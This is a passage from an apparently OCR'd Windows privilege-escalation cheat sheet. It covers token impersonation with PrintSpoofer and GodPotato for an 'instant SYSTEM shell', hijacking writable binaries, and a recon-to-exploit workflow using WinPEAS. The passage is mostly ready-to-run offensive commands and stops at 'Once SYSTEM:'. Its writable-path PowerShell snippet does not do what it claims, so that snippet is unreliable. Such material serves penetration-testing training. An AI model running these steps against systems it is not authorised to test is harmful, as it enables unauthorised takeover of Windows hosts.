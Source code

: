***

#### 8. 🧰 Token Impersonation (SeImpersonate / SeAssignPrimaryToken)

**🔍 Check Privileges**

```powershell
whoami /priv
```

If you have `SeImpersonatePrivilege`, you can escalate using tools like **PrintSpoofer** or **GodPotato**.

**💣 Exploit Example**

```powershell
PrintSpoofer64.exe -i -c cmd.exe
# or
GodPotato.exe -cmd "cmd.exe"
```

Instant SYSTEM shell.

***

#### 9. 🧩 Writable Binaries or Paths

If you find writable locations in PATH, replace executables executed by SYSTEM services or tasks.

```powershell
Get-ChildItem "C:\Program Files" -Recurse -ErrorAction SilentlyContinue | 
Where-Object {$_.Attributes -match "Archive"} | 
Select-String "C:\\"
```

***

### IV. 🧠 Real-World Workflow Example

```powershell
# Step 1: Basic Recon
whoami
systeminfo
ipconfig /all

# Step 2: Run WinPEAS
winpeas.exe > enum.txt

# Step 3: Analyze
findstr /i "privilege service task" enum.txt

# Step 4: Exploit
PrintSpoofer64.exe -i -c cmd.exe
```

Once SYSTEM:
